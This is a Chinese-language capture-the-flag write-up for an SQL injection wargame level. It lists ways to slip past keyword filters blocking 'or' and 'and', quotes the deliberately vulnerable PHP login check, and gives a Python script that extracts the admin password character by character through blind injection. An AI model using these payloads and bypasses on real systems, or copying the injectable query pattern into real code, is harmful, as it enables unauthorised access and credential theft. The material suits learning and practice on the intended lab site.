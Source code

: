 替换or和and

- 符号替代：||和&&
- 双写绕过
- 中间加注释改成o/**/r，但是貌似会识别成o r，如果既过滤or，还过滤空格，这样写还挺好

`pw='1' || id = 'admin`

#### 第七题 ORGE

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

显然需要爆破密码，和之前的第四题一样，只需要把or改成||即可。

```python
import requests

url = 'https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php'
headers = {'Host': 'los.rubiya.kr',
'Connection': 'close',
'Pagma': 'no-cache',
'Cache-Control': 'no-cache',
'sec-ch-ua-platform': "Windows",
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36'}
cookies={'PHPSESSID':'nc4ldg9qv2m60ddunromird6dk'}
# 确定密码长度
for length in range(4,20):
    params = {'pw':f"'||length(pw)={length}-- "}
    response = requests.get(url, cookies=cookies, params=params)
    if(response.text.find("Hello admin")!=-1):
        print(f"length: {length}")
        break
#依次确定每个字符
pw = ""
for n in range (1,length+1):
    for code in range(48,123):
        params = {'pw':f"'|| ascii(SUBSTR(pw,{n},1))={code}-- "}
        response = requests.get(url, cookies=cookies, params=params)
        # print(params)
        if(response.text.find("Hello admin")!=-1):
            pw+=chr(code)
            print(f"pw: {pw}")
            break
```
